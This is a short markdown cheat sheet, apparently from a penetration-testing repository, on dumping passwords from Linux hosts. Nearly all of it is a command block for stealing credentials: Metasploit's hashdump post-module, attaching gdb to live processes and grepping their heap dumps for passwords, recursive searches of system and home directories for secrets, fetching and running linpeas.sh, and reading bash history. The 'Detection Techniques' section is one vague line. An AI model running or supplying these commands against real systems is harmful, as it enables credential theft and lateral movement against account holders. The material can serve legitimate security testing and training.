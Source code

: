# Password Dumping

## **Exploit Description:**

Adversaries may attempt to dump credentials to obtain account login and credential material, normally in the form of a hash or a clear text password, from the operating system and software. Credentials can then be used to perform Lateral Movement and access restricted information.

Several of the tools mentioned in associated sub-techniques may be used by both adversaries and professional security testers. Additional custom tools likely exist as well.

## Command Syntax
```

-[Password Hashes]-

Need shell via meterpreter on box

meterpreter > use post/linux/gather/hashdump
meterpreter > show options
meterpreter > set SESSION session-id
meterpreter > exploit

-[Plaintext]-

If trying to grab plaintext passwords from a linux system, it is possible to obtain them via GDB/GNU debugger.  Need foothold in system.

1. find services in operation that need authentication/have been previously authenticated through

ps -ef

IE, you find -bash, running under the current terminal with the pid of 3839

You may also search for a specific service with 

ps -eg | grep '<SERVICE NAME>'

2. Use gdb to dump its memory to determine any previous usage of credentials

gdb -p <PID>

This will open a shell where you can now enter gdb commands.

3. List all mapped memory regions inside gdb shell

info proc mappings

Take note of the start address and end address of the listed heap

4. Dump memory of the start and end address of the heap allocation into a file for analysis

dump memory <OUTPUT_FILE> <START_ADDRESS> <END_ADDRESS>

5. use strings to identify potentially useful credentials via passw keyword

strings <OUTPUT_FILE> | grep passw

-[Configuration Files]-

1. Grep for files that may contain passwords

grep --color=auto -rnw '/' -ie "Password" --color=always 2>/dev/null

— color will color code the results accordingly

-rnw means recursive search, print line number, match only whole words

‘/’ means start search from root directory

-ie means ignore case, and use patterns for matching.

Can also query for these keywords in lieu of "Password" - passwd, pass, passw, key, secret

grep --color=auto -rnw '/etc' -ie "Password" --color=always 2>/dev/null

Would query /etc for instance

grep --color=auto -rnw '/home/user' -ie "Password" --color=always 2>/dev/null 

Would query the /home directory

find /etc -type f -exec grep -i -I "pass" {} /dev/null \;

Would list files that contain the pass keyword

find '/home/user' -type f -exec grep -i -I "pass" {} /dev/null \;

2. Download linpeas utility

Use wget, curl, or a simple http server to pull down linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

-[History Files]-

cat /home/user/.bash_history | grep "pass"

The .bash_history file only stores the history of a specific user.

Alt,

history

Will show all commands run on terminal

```

## Detection Techniques
```

Kibana, looking on the box, etc

```